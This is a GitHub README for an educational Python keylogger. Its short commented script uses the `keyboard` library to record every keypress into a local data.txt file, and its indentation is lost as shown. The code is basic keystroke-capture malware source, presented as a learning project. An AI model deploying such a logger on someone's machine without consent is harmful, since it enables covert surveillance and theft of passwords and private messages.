<img align="center" src="https://i.imgur.com/ZgHWFhw.png" alt="gabriellugo" />

# KEYLOGGER

<a href="https://github.com/GabrielLugooo/Keylogger" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/English%20Keylogger-000000" alt="English Keylogger" /></a>
<a href="https://github.com/GabrielLugooo/Keylogger/blob/main/README%20Spanish.md" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/Spanish%20Keylogger-green" alt="Spanish Keylogger" /></a>

### Objective

This project aims to capture user keystrokes and store them in a text file. It is based on Python’s `keyboard` library to log each pressed key and save it in a `data.txt` file in real-time.

The keylogger is a useful tool for understanding how keyboard event capturing works in Python, enabling its application in areas such as cybersecurity, software testing, and accessibility.

### Skills Learned

- Capturing keyboard events in Python.
- Using the `keyboard` library.
- File handling in Python.
- Writing and reading data in text files.
- Automating processes with system events.

### Tools Used

![Static Badge](https://img.shields.io/badge/Python-000000?logo=python&logoSize=auto)
![Static Badge](https://img.shields.io/badge/keyboard-000000?logo=keyboard&logoSize=auto)

- Python
- `keyboard` library

### Project

#### Preview

<img align="center" src="https://i.imgur.com/uEPMPfS.jpeg" alt="keylogger1" />
<img align="center" src="https://i.imgur.com/7bhqjLd.jpeg" alt="keylogger2" />

#### Code with Comments (English)

```python
# Keylogger

# Install the necessary library with: pip install keyboard
# Import the library to detect keystrokes
import keyboard

# Function to be executed every time a key is pressed
def pressedKeys(key):
# Open (or create) the file 'data.txt' in append mode ('a')
with open('data.txt', 'a') as file:
# If the key pressed is the space bar, add a space to the file
if key.name == 'space':
file.write(' ')
else:
# Add the name of the pressed key to the file
file.write(key.name)

# Assign the pressedKeys function to be executed on every keystroke
keyboard.on_press(pressedKeys)

# Keep the program running waiting for keyboard events
keyboard.wait()
```

### Limitations

Keylogger it's just for educational purpose under the MIT License.

---

<h3 align="left">Connect with me</h3>

<p align="left">
<a href="https://www.youtube.com/@gabriellugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=55200&format=png" alt="@gabriellugooo" height="40" width="40" /></a>
<a href="http://www.tiktok.com/@gabriellugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=118638&format=png" alt="@gabriellugooo" height="40" width="40" /></a>
<a href="https://instagram.com/lugooogabriel" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=32309&format=png" alt="lugooogabriel" height="40" width="40" /></a>
<a href="https://twitter.com/gabriellugo__" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=phOKFKYpe00C&format=png" alt="gabriellugo__" height="40" width="40" /></a>
<a href="https://www.linkedin.com/in/hernando-gabriel-lugo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=8808&format=png" alt="hernando-gabriel-lugo" height="40" width="40" /></a>
<a href="https://github.com/GabrielLugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=80&id=AngkmzgE6d3E&format=png" alt="gabriellugooo" height="34" width="34" /></a>
<a href="mailto:lugohernandogabriel@gmail.com"> <img align="center" src="https://img.icons8.com/?size=50&id=38036&format=png" alt="lugohernandogabriel@gmail.com" height="40" width="40" /></a>
<a href="https://linktr.ee/gabriellugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://simpleicons.org/icons/linktree.svg" alt="gabriellugooo" height="40" width="40" /></a>
</p>

<p align="left">
<a href="https://github.com/GabrielLugooo/GabrielLugooo/blob/main/README.md" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/English%20Version-000000" alt="English Version" /></a>
<a href="https://github.com/GabrielLugooo/GabrielLugooo/blob/main/Readme%20Spanish.md" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/Spanish%20Version-Green" alt="Spanish Version" /></a>
</p>

<a href="https://linktr.ee/gabriellugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/Credits-Gabriel%20Lugo-green" alt="Credits" /></a>
<img align="center" src="https://komarev.com/ghpvc/?username=GabrielLugoo&label=Profile%20views&color=green&base=2000" alt="GabrielLugooo" />
<a href="" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/License-MIT-green" alt="MIT License" /></a>
